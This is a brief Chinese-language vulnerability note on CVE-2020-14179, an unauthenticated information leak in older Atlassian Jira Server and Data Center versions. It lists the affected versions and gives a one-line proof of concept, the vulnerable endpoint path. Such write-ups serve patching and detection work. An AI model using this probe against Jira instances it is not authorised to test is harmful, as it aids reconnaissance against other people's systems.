 # Atlassian Jira Server 及 Data Center 信息泄露漏洞 CVE-2020-14179

## 漏洞描述

Atlassian JIRA Server是澳大利亚Atlassian公司的一套缺陷跟踪管理系统的服务器版本。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。Atlassian JIRA Data Center是Atlassian JIRA的数据中心版本。
Atlassian JIRA Server和Data Center 8.5.8之前版本、8.6.0至8.11.1之前版本的/secure/QueryComponent!Default.jspa端点存在信息泄露漏洞。未经身份认证的远程攻击者可利用该漏洞查看自定义字段名称和自定义SLA名称。

## 漏洞影响

```
Atlassian JIRA Server < 8.5.8
Atlassian JIRA Server 8.6.0<= Version <8.11.1
Atlassian JIRA Data Center < 8.5.8
Atlassian JIRA Data Center 8.6.0<= Version <8.11.1
```

## 漏洞复现

poc

```
/secure/QueryComponent!Default.jspa
```

